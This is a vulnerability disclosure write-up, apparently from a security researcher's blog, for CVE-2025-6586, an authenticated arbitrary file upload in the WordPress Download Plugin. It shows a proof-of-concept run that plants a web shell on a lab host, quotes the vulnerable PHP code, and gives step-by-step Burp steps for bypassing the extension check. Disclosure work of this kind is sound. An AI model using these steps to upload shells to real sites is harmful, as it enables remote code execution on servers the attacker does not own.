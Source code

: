 +++
title = 'Download Plugin <= 2.2.8 - Authenticated (Admin+) Arbitrary File Upload via the dpwap_plugin_locInstall Function'
date = 2025-07-03T00:00:00+00:00
hideToc = true
+++
### CVE-2025-6586

The [Download Plugin](https://wordpress.org/plugins/download-plugin/) does not sanitize the file types of the `dpwap_plugin_locInstall` function
exposed via the `mul_upload` admin page, allowing administrators or above to upload arbitrary files and
potentially gain code execution on the server.

## TL;DR Exploits
A POC [cve-2025-6586.py](https://github.com/d0n601/CVE-2025-6586/blob/master/cve-2025-6586.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.
```
python3 cve-2025-6586.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Web Shell Location: https://lab1.hacker/wp-
content/uploads/dpwap_logs/files/tmp/shell.php

Executing test command: ip addr
    <pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
        valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
v       alid_lft 75221sec preferred_lft 75221sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86354sec preferred_lft 14354sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link
        valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
        valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link
        valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02:42:77:47:94:a5 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
        valid_lft forever preferred_lft forever
</pre>

```

## Details

The `dpwap_plugin_multiple_upload_func` function is exposed in the `mul_upload` admin page. On line [80](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/Base.php#L80) of `/wp-content/plugins/download-plugin/app/Plugins/Base.php` the function includes [multiple_upload_plugin.php](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/templates/multiple_upload_plugin.php).

```php
// multiple upload function
public function dpwap_plugin_multiple_upload_func()
{
$dpwapObj = new Dpwapuploader();
$plugin_multiple_upload_file = DPWAP_DIR . DS . 'app' . DS .
'Plugins' . DS . 'templates' . DS . 'multiple_upload_plugin.php';
include_once $plugin_multiple_upload_file;
}
```

By default the full path of $plugin_multiple_upload_file should be `/wp-
content/plugins/download-plugin/app/Plugins/templates/multiple_upload_plugin.php`.
The template will also check for a `$_POST['dpwap_locInstall']` and `$_FILES['dpwap_locFiles']['name'][0]`. If those are present it will call `$dpwapObj->dpwap_plugin_locInstall();` within the code that builds the html form on line [47](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/templates/multiple_upload_plugin.php#L47).

```php
...
...
<div class="inside">
    <?php
        if (isset($_POST['dpwap_locInstall']) && $_FILES['dpwap_locFiles']['name'][0] != ""){
        echo '<form id="form_alldpwap" name="form_alldpwap" method="post" action="admin.php?page=activate-status">';
        echo "<div class='dpwap_main'>";
        $dpwapObj->dpwap_plugin_locInstall();
        echo "</div>";
        echo '<input class="button button-primary dpwap_allactive"
type="submit" name="dpwap_locInstall" onclick="activateAllPLugins()"
value="'. esc_attr__('Activate all', 'download-plugin').'">';
        echo '</form>';
        }
    ?>
</div>
...
...
```

As seen below, the `dpwap_plugin_locInstall` function within `/wp-content/plugins/download-plugin/app/Plugins/Dpwapuploader.php` on line [300](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/Dpwapuploader.php#L300) will move the uploaded files to a web accessible directory, keeping the original file name and extension. Ex: `https://TARGETSITEDOMAIN/wp-content/uploads/dpwap_logs/files/tmp/shell.php`

```php
public function dpwap_plugin_locInstall(){
// Increase the resources
@ini_set( 'memory_limit', '1024M' );
@ini_set( 'upload_max_filesize', '640M' );
@ini_set( 'post_max_size', '640M' );
check_admin_referer( $this->key );
echo '<div class="dpwap_h3">'.esc_html__( 'Installing Plugins',
'download-plugin' ) .':</div>';
for ( $i = 0; $i < count( $_FILES['dpwap_locFiles']['name'] ); $i++
) {
$dpwap_locFilenm = sanitize_file_name($_FILES['dpwap_locFiles']
['name'][$i]);
if ( strpos( $dpwap_locFilenm, 'mpipluginsbackup' ) === false )
{
//Get the temp file path
$tmpFilePath = $_FILES['dpwap_locFiles']['tmp_name'][$i];
//Make sure we have a filepath
if ( $tmpFilePath != "" ) {
//Setup our new file path
$newFilePath =
DPWAPUPLOADDIR_PATH.'/dpwap_logs/files/tmp/' . $dpwap_locFilenm;
//Upload the file into the temp dir
if( @move_uploaded_file( $tmpFilePath, $newFilePath ) )
{
$dpwap_tempurls[] =
DPWAPUPLOADDIR_PATH.'/dpwap_logs/files/tmp/'.$dpwap_locFilenm;
}
}
}
else{
echo esc_html__('This is', 'download-plugin') .'
<b>'.esc_html($dpwap_locFilenm).'</b> '.esc_html__( 'not a valid zip
archive.', 'download-plugin' );
}
}
if( $dpwap_tempurls )
$this->dpwap_get_packages( $dpwap_tempurls, "activate", "nocreate",
"upload_locFiles" );
}
```


## Manual Reproduction
1. Login to the admin panel and navigate to `Plugins -> Add Plugin`.
2. Click the `Upload Multiple Plugins` at the top, this button is added to the UI by the [Download Plugin](https://wordpress.org/plugins/download-plugin/).
![0](/posts/images/cve-2025-6586/0.png)
3. Now from `/wp-admin/admin.php?page=mul_upload`, start BurpSuite or a similar proxy.
![1](/posts/images/cve-2025-6586/1.png)
4. Take a `php` file, and replace its extention with `zip` to pass the front end validation, and then click `Install Now`.
![2](/posts/images/cve-2025-6586/2.png)
5. Modify the intercepted request on the fly or in a Repeater tab to change the file extension back to `php`.
![3](/posts/images/cve-2025-6586/3.png)
6. Browse to the newly uploaded file to trigger code execution.
![4](/posts/images/cve-2025-6586/4.png)

